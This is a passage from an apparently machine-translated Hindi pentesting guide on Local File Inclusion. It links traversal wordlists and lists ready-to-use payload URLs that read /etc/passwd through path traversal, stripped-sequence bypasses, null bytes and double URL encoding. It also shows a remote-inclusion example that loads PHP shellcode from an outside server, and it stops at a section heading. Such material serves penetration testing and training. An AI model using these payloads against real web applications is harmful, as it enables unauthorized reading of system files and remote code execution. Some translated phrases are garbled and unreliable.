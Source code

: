**कई \*nix LFI सूचियों को मिश्रित करके और अधिक पथ जोड़कर मैंने यह एक बनाया है:**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt" %}

आप `/` को `\` के लिए बदलने का प्रयास करें\
आप `../../../../../` भी जोड़ने का प्रयास करें

एक सूची जो फ़ाइल /etc/password को खोजने के लिए कई तकनीकों का उपयोग करती है (कि क्या संक्रमण है) यहां मिल सकती है [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)

### **Windows**

विभिन्न शब्द सूचियों का मिश्रण:

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt" %}

आप `/` को `\` के लिए बदलने का प्रयास करें\
आप `C:/` को हटाने और `../../../../../` जोड़ने का प्रयास करें

एक सूची जो फ़ाइल /boot.ini को खोजने के लिए कई तकनीकों का उपयोग करती है (कि क्या संक्रमण है) यहां मिल सकती है [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### **OS X**

Linux की LFI सूची की जाँच करें.

## मूल LFI और बायपास

सभी उदाहरण स्थानीय फ़ाइल समावेशन के लिए हैं लेकिन इसे दूरस्थ फ़ाइल समावेशन में भी लागू किया जा सकता है (पृष्ठ=[http://myserver.com/phpshellcode.txt\\](http://myserver.com/phpshellcode.txt\)/).
```
http://example.com/index.php?page=../../../etc/passwd
```
### ट्रावर्सल सीक्वेंसेस स्ट्रिप्ड गैर-पुनरावृत्तिकरण
```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
### **नल बाइट (%00)**

प्रदान की गई स्ट्रिंग के अंत में अधिक वर्ण जोड़ें (बाइपास: $\_GET\['param']."php")
```
http://example.com/index.php?page=../../../etc/passwd%00
```
यह **PHP 5.4 से हल हो गया है**

### **इंकोडिंग**

आप डबल URL इंकोड (और अन्य) जैसे गैर-मानक इंकोडिंग का उपयोग कर सकते हैं:
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### मौजूदा फ़ोल्डर से

